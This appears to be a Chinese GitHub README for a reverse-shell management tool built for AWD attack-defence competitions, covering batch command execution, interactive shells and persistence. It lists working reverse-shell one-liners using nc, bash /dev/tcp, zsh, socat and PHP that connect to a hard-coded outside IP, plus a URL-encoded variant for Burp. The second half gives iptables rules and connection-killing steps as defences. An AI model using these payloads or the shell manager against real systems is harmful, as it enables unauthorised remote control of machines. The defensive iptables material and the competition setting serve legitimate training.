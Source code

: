 ##Tkitn\_reverse_manage
278884553@qq.com

###介绍
* awd线下shell管理与权限维持
* 批量执行命令，一键批量执行
* 交互式shell生成
* 异常处理，不会因为对方kill进程而意外退出，或命令输错导致程序卡死

###How to use
```
python3
python Tkitn_reverse_manage.py 0.0.0.0 9992
```
###参数
* h:列出帮助页面
* a:批量命令执行所有shell
* l:查看已经上线的所有shell
* g:根据ip进入其shell通道
* d:删除此shell节点
* r:刷新已经上线的shell,连接失败的则删除掉
* i:在当前的通道处生成交互式shell
* python -c 'import pty;pty.spawn("/bin/bash")'
* q:退出程序

###Payload

#### [**反弹shell集合**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

####常用的payload

```
nc -e /bin/bash 134.65.33.70 9991

bash -c 'bash -i >/dev/tcp/134.65.33.70/9991 0>&1'
burp里使用+代替空格
bash+-c+%27bash+-i+%3E%2Fdev%2Ftcp%2F134.65.33.70%2F9991+0%3E%261%27
zsh -c 'zmodload 

zsh/net/tcp && ztcp 134.65.33.70 9991 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:134.65.33.70:9991

php -r '$sock=fsockopen("192.168.43.220",9994);exec("/bin/sh -i <&3 >&3 2>&3");'
```

###防御反弹shell
kill进程

```
netstat -anp | grep ESTA
kill -9 pid
```
####防御
只开放一些比赛的必要端口，也可以防止后门的连接

```
#开放ssh
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A OUTPUT -p tcp --sport 22 -j ACCEPT
#打开80端口
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A OUTPUT -p tcp --sport 80 -j ACCEPT
#开启多端口简单用法
iptables -A INPUT -p tcp -m multiport --dport 22,80,8080,8081 -j ACCEPT
#允许外部访问本地多个端口 如8080，8081，8082,且只允许是新连接、已经连接的和已经连接的延伸出新连接的会话
iptables -A INPUT -p tcp -m multiport --dport 8080,8081,8082,12345 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
iptables -A OUTPUT -p tcp -m multiport --sport 8080,8081,8082,12345 -m state --state ESTABLISHED -j ACCEPT
```
限制ssh登陆，进行访问控制

```
#禁止从xx.xx.xx.xx远程登陆到本机
iptables -t filter -A INPUT -s xx.xx.xx.xx -p tcp --dport 22 -j DROP
#允许xx.xx.xx.xx网段远程登陆访问ssh
iptables -A INPUT -s xx.xx.xx.1/24 -p tcp --dport 22 -j ACCEPT
```
限制IP连接数和连接速率

```
#单个IP的最大连接数为 30
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 30 -j REJECT
#单个IP在60秒内只允许最多新建15个连接
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --update --seconds 60 --hitcount 15 -j REJECT
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --set -j ACCEPT
#允许外部访问本机80端口，且本机初始只允许有10个连接，每秒新增加2个连接，如果访问超过此限制则拒接 （此方式可以限制一些攻击）
iptables -A INPUT -p tcp --dport 80 -m limit --limit 2/s --limit-burst 10 -j ACCEPT
iptables -A OUTPUT -p tcp --sport 80 -j ACCEPT
```
限制访问

```
#禁止从客户机1.1.1.4访问1.1.1.5上的任何服务
iptable -t filter -A FORWARD -s 1.1.1.4 -d 1.1.1.5 -j DROP
#封杀1.1.1.4这个IP或者某个ip段
iptables -I INPUT -s 1.1.1.4 -j DROP
iptables -I INPUT -s 1.1.1.1/24 -j DROP
```

